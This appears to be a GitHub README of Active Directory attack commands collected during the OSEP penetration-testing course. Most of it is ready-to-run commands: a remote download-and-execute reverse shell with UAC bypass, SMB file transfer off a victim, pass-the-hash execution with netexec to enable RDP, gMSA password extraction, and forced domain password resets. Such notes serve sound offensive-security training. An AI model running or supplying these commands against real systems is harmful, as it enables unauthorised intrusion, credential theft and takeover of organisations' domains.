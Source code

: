 Just a bunch of tools built/gathered along the OSEP course.

# <ins>Useful Basic Commands</ins>:

### <ins>Run command as another user</ins>:
- `Invoke-RunasCs amit 'Password123!' 'powershell iex(iwr http://192.168.45.185/rev.txt -usebasicparsing)' -ForceProfile -CreateProcessFunction 2 -BypassUac`

### <ins>Set up SMB server (file transfer)</ins>:
- `smbserver.py share $(pwd) -smb2support -username amit -password password`
- On Victim: `net use \\192.168.45.223\share /U:amit password`
- Copy files: `copy <FILENAME> \\192.168.45.223\share`

### <ins>Enable RDP and RestrictedAdmin from both Local/Remote</ins>:

Using command prompt: 
- `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f && reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0 && netsh firewall set service remoteadmin enable && netsh firewall set service remotedesktop enable` 

Using netexec:
- `netexec smb db01 -u administrator -H faf3185b0a608ce2f8afb6f8d133f85b --local-auth -X 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f;reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0;netsh firewall set service remoteadmin enable;netsh firewall set service remotedesktop enable' --exec-method atexec`

### <ins>RDP to host using xfreerdp</ins>:
- `xfreerdp /v:172.16.231.221 /u:amit /p:'Password123!' +dynamic-resolution +clipboard`

# <ins>BloodHound Dacls Abuse</ins>

### GMSAPasswordReader

Decrypt the gmsa password

    1. $gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties msDS-ManagedPassword
    2. $mp = $gmsa.'msDS-ManagedPassword'
    $mp // Get the password in numbers
    3. ConvertFrom-ADManagedPasswordBlob $mp

If the clear-text password not appear, let's just use it.

    1. $password = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
    2. $cred = New-Object System.Management.Automation.PSCredential "GroupName" , $password

Now we got the credentials Objects, let's open a new session with the privileged user:

    1. Invoke-Command -ComputerName 127.0.0.1 -cred $cred -ScriptBlock {net user DomainAdminmUser P@ssw0rd1!}
    2. Invoke-Command -ComputerName 127.0.0.1 -Credential $cred -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -Force)}

### ForceChangePassword

This Dacl means we can change the user's password without knowing his current one.

Change it using rpcclient:

    1. rpcclient -U <username> <ip>
    2. setuserinfo2 <username-we-can-change-password-to> 23 'NewPassword123!'

Change it using PowerView:

    1. $newpass = ConverTo-SecureString 'Password1234!' -AsPlainText -Force
    2. SetDomainPassword -Identity smith -AccountPassword $newpass

